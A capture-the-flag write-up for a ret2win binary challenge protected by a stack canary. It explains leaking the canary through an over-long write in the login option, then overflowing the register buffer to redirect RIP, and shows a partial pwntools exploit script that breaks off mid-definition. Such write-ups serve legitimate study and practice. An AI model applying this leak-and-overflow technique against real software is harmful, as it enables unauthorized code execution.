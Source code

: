 Simple ret2win, but protected by a canary.

## Canary Leak 🕳️🐦

How to leak the canary?

The `login()` option:

```
write(1,"How long is your username: ",0x1b)
```

We can ask for a large input and then *read it back* with:

```
read(0,local_28,0x10);
write(1,"Sorry, we couldn\'t find the user: ",0x22);
write(1,local_28,(long)local_2c);
```

That gives us a memory leak! If we send enough bytes, we can recover the 7 visible bytes of the 8-byte canary. The MSB is always `\x00`.

![Leak example](https://github.com/user-attachments/assets/23a08b0a-2c21-4854-85c4-24eba2199cbd)

## Ret2Win 💥

Now that we have the canary, we can overflow in the `register()` function.

-> **With the full 8-byte canary**:
- Fill buffer (24 bytes)
- Append canary
- Fill saved RBP (8 bytes)
- Overwrite RIP with `0x401453`

Boom — flag printed!

## Exploit 🔨

Here's the full exploit:

```python
from pwn import *
import argparse
import sys

# Constants
BUFFER_OFFSET = 24
CANARY_SIZE = 8
RBP_SIZE = 8
FLAG_PRINT_ADDR = 0x401453  # Code that prints the flag in main()

def get_canary(io):
    """
    Leak the stack canary via the login option.
    """
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"How long is your username: ", b"60")
    io.sendafter(b"Username: ", b"A" * 16)
    io.recvuntil(b"A" * 16)
    leak = io.recv(60)
    canary = b'\x00' + leak[9:16]
    print(f"[+] Leaked canary: {canary.hex()}")
    return canary

def build_payload(canary):
    """
```